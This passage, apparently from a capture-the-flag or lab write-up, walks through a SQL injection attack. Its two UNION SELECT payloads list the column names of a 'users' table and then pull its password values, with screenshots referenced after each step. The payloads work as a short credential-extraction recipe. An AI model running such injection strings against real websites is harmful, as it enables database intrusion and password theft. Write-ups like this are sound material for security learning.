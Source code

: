 Then I queried the column name for the *users* table.

```
UNION+SELECT+1,column_name,3,4,5+FROM+information_schema.columns+WHERE+table_name="users"+AND+table_schema=database()
```

![](IMAGES/21.png)

I then extracted password from the table.

```
UNION+SELECT+1,password,3,password,5+FROM+users
```

![](IMAGES/22.png)

